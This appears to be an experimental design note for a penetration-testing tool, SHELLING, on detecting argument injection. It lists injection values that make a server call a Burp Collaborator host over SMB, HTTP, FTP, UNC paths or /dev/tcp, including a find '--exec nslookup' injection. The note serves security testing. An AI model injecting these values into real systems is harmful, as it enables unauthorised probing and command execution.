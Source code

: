 # Detecting argument injection
Apart from differences in application's response, we might dalso detect argument injection by:
- reference injection- we supply an argument that, if interpreted properly, will ensue a network response (e.g. a DNS lookup, HTTP/FTP/SMB interaction etc) - this can be bruteforced
- command injection through the target-specific argument - we supply an arbitrary command into a command-specific flag - which is our "base" command in SHELLING (doing whatever the setting is, e.g. a lookup or sleep/selfping)  - this is rather hardcoded, e.g. "find / -name <INJECTION>" with injection "a --exec nslookup PAYLOAD_MARK.BURP_COLLAB_DOMAIN".



## Reference injection
In the first approach we have no idea what is the target command we are injecting arguments into. The main assumption is that there are only letters, uppercase letters and digits (the last not likely to take any argument values, though) that can represent short flags in formats:

    COMMAND -FLAG
    COMMAND /FLAG

At this point we do not attempt to bruteforce any full names (long versions of the flags), like:

    COMMAND --FULL_FLAGNAME

Good candidates for values are:

    smb://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    file://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    http://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 
    ftp://wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/a 

Additionally these are worth checking too:

    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a
    > /dev/tcp/wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net/80
    
This might as well work with injections like (plus the nix variant from above):

    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<NULLBYTE>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a<POOTERMINATOR>
    >\\wzzec5jztfjusa225ubi8pi1osuii7.burpcollaborator.net\a::COMMENT OUT

whereas neither command nor argument separators are allowed, but we can redirect the outpt to an arbitrary local file (which might be very good too :D). 



## Command inejction
In this case we check for particular flags in particular binaries (assuming that the matching binary is being executed on the server), e.g. --exec in find, -O in wget or /c in some windows commands.


## Syntax
We should still keep in mind quotes in the final expression syntax might make our payload fail, hence we need to make sure we also create and evaluate proper test cases while developing this feature.

This is all experimental.
